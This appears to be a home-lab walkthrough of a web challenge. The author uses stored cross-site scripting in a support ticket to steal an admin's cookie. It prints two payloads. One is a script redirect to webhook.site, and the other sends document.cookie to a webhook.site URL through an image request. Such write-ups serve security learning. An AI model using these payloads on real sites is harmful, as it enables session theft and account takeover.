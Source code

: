 # Challange

### In the challenge scenario, there is a support portal and an admin panel, and the objective is to steal the admin's cookie.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/f443c8ad-7e65-4057-a52e-e423ad10c67e)

- In the ticket section, I utilized a payload `<script>window.location.href='<webhook site Url'</script>` that redirects the admin to `webhook.site`. This allows me to steal the admin's ID from the intercepted request on `webhook.site`.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/32d2f138-7508-4b45-a8cb-667df4850f87)

- Upon logging into the admin panel, an automatic redirection occurs, leading you to a specific URL.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/6439ac6e-fab2-413b-aca9-74aa4c03986d)


- In this payload `<script> var i=new Image; i.src="<webhook.site URL>"+document.cookie;</script>`, I included code to fetch an image from a specified URL. This code also resulted in the cookies being exposed and displayed on the webhook site, allowing me to capture and analyze them.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/510ae650-b043-4798-bfed-a388be10f78c)


- Upon inspecting the results in the webhook.site, we observed the captured information and data that was obtained through the payload and cookies.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/059da415-69dd-4122-bd25-6a5c941d301b)
